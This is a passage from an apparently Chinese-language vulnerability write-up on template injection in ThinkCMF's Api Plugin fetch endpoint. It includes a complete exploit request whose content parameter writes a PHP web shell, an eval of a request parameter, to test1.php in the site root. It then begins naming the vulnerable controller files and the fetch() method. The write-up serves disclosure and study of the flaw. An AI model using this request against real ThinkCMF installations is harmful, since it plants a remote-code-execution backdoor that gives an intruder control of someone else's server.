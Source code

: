 ![image](../img/e1273022735b4dbcd54a6cacb595931f.png)

#### 0x02.2 Api类模版注入1

```
url:http://thinkcmf.test/index.php?g=Api&m=Plugin&a=fetch
post:
templateFile=/../../../public/index
prefix=''
content=<php>file_put_contents('test1.php','<?php eval($_REQUEST[11]);')</php> 
```

同上一样，会在跟目录生成 马子 test1.php

#### 0x02.3 漏洞原理

路径:ThinkCMFX\application\Comment\Controller\WidgetController.class.php
路径:ThinkCMFX\application\Api\Controller\PluginController.class.php

两处的漏洞原理都是一样的，所以我就选一处进行讲解了
路径:application\Comment\Controller\WidgetController.class.php
方法：public function fetch()

